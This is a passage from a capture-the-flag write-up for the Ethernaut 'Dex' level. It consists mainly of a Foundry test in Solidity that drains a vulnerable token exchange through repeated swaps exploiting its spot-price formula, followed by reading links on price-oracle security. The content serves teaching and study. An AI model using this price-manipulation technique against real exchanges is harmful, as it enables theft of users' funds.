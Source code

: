 ## Solution code

After understanding which the problem is, let's see the solution of the challenge

```solidity
function exploitLevel() internal override {
  vm.startPrank(player, player);

  // Approve the dex to manage all of our token
  token1.approve(address(level), 2**256 - 1);
  token2.approve(address(level), 2**256 - 1);

  // To drain the dex our goal is to make the balance of `tokenIn` much lower compared to balance of `tokenOut`
  swapMax(token1, token2);
  swapMax(token2, token1);
  swapMax(token1, token2);
  swapMax(token2, token1);
  swapMax(token1, token2);

  // After all these swaps the current situation is like this
  // Player Balance of token1 -> 0
  // Player Balance of token2 -> 65
  // Dex Balance of token1 -> 110
  // Dex Balance of token2 -> 45
  // If we tried to swap all the 65 token2 we would get back 158 token1
  // but the transaction would fail because the Dex does not have enough
  // balance to execute the transfer
  // So we need to calculate the amount of token2 to sell in order to get back 110 token1
  // 110 token1 = amountOfToken2ToSell * DexBalanceOfToken1 / DexBalanceOfToken2
  // 110 = amountOfToken2ToSell * 110 / 45
  // amountOfToken2ToSell = 45

  level.swap(address(token2), address(token1), 45);

  assertEq(token1.balanceOf(address(level)) == 0 || token2.balanceOf(address(level)) == 0, true);

  vm.stopPrank();
}

function swapMax(ERC20 tokenIn, ERC20 tokenOut) public {
  level.swap(address(tokenIn), address(tokenOut), tokenIn.balanceOf(player));
}
```

You can read the full solution of the challenge opening [Dex.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Dex.t.sol)

## Further reading

- [OpenZeppelin: The Dangers of Price Oracles in Smart Contracts](https://www.youtube.com/watch?v=YGO7nzpXCeA)
- [OpenZeppelin: Smart Contract Security Guidelines #3: The Dangers of Price Oracles](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles/)
- [samczsun: So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)
- [cmichel: Pricing LP tokens | Warp Finance hack](https://cmichel.io/pricing-lp-tokens/)
- [Ethereum Docs: Oracles](https://ethereum.org/en/developers/docs/oracles/)
- [Chainlink: What Is a Blockchain Oracle?](https://chain.link/education/blockchain-oracles)
- [Uniswap TWAP](https://docs.uniswap.org/protocol/concepts/V3-overview/oracle)
- [Consensys: Integer Division](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/integer-division/)
